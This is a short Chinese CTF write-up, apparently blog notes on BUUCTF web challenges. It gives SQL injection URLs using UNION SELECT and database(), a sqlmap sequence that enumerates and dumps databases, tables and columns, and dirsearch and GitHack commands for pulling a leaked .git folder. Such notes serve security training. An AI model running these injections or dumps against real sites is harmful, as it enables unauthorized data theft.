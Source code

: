 1.查列数

> http://87d40cb2-b889-4650-8c23-320333964b20.node4.buuoj.cn:81/?id=TMP0919' UNION SELECT 1,2,3,4,5;--++

2.用database() 查出数据库名ctf

> [http://87d40cb2-b889-4650-8c23-320333964b20.node4.buuoj.cn:81/?id=TMP0919%27%20UNION%20SELECT%201,database(),3,4,5%20limit%201,2;--++](http://87d40cb2-b889-4650-8c23-320333964b20.node4.buuoj.cn:81/?id=TMP0919' UNION SELECT 1,database(),3,4,5 limit 1,2;--++)

\3. 对于数据库ctf，查出数据库表的数量

**写了一半改用sqlmap半自动化注入了**

> 1判断注入点
>
> sqlmap -u "http://172.16.1.116/?id=1" --batch
>  2获取数据库名
>
> sqlmap -u "http://172.16.1.116/?id=1" --batch --dbs
>  3获取指定数据库下所有表名
>
> sqlmap -u "http://172.16.1.116/?id=1" --batch -D 数据库名 --tables
>  4获取表中字段名
>
> sqlmap -u "http://172.16.1.116/?id=1" --batch -D 数据库名 -T 表名 --column
>  5获取数据
>
> sqlmap -u "http://172.16.1.116/?id=1" --batch -D 数据库名 -T 表名 -C 字段1,字段2…… --dmup



## [GWCTF 2019]我有一个数据库 

![img](https://img-blog.csdnimg.cn/2751d86183084af992ac64a80c80906c.png)





## [NewStarCTF 2023 week2] R!!C!!E!!

信息泄露的思路方向：

1、robots.txt

2、phpinfo.php

3、网站备份文件

4、源码泄露，常见的有：HG泄露；[git](https://so.csdn.net/so/search?q=git&spm=1001.2101.3001.7020)泄露；DS_Store泄露

> dirsearch -u http://9bc77c26-eb16-4131-9ae9-22242574bf2c.node4.buuoj.cn:81/

 扫描网站目录(git泄露)

> python2 GitHack.py http://9bc77c26-eb16-4131-9ae9-22242574bf2c.node4.buuoj.cn:81/.git
